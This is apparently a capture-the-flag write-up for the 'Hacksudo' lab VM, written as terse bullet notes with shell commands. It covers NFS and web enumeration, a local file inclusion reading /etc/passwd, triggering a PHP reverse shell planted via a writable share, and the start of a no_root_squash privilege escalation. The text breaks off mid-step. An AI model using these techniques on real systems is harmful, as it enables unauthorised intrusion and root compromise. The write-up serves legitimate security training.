


# Hacksudo (Creatigon Basic Pentest)

---

## Enumeration

- Nmap initial

1. 80/http Apache httpd 2.4.46 ((Ubuntu))
2. 111/rpcbind 2-4 (RPC #100000)
3. 2049/nfs_acl 3 (RPC #100227)

- Enumerate nfs

```sh
$ showmount -e $IP
Export list for 10.0.2.16:
/mnt/nfs *

$ mkdir /tmp/hack
$ sudo mount $IP:/mnt/nfs /tmp/hack
$ cd /tmp/hack
$ ls -la
# find flag1.txt
```

- nothing to find more and
- Enumerate http
- fuzzing

```sh
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://$IP/FUZZ.php
```

- find `file` and `info` php files
- PHP Version 7.4.9
- file.php may be external file calling and try to exploit LFI

```sh
─$ ffuf -u http://10.0.2.16/file.php?FUZZ=/etc/passwd -w /usr/share/wordlists/dirb/common.txt -fs 238
```

- found `file` parameter has LFI vuln



```
http://10.0.2.16/file.php?file=/mnt/nfs/flag1.txt
```

- show the file content in nfs file share
- add php reverse shell as shell.php in /mnt/nfs/ via /tmp/hack folder with sudo access
- listen at attacker machine with nc and in another terminal send request to activate shell.php and get the shell with `www-data` user

```sh
nc -vnlp 4242
curl http://$IP/file.php?file=/mnt/nfs/shell.php
```

- add linpeas.sh file in /mnt/nfs
- with www-data user access, run linpeas.sh
- Interesting with linpeas results

```
Vulnerable to CVE-2021-4034

-rw-r--r-- 1 root root 426 Mar 16  2021 /etc/exports
/mnt/nfs       *(rw,no_root_squash)

```

- from nfs share folder, from attacker machine terminal, create new folder and change access to 777
- from www-data, copy the /bin/bash into nfs shared folder
- from attacker machine terminal


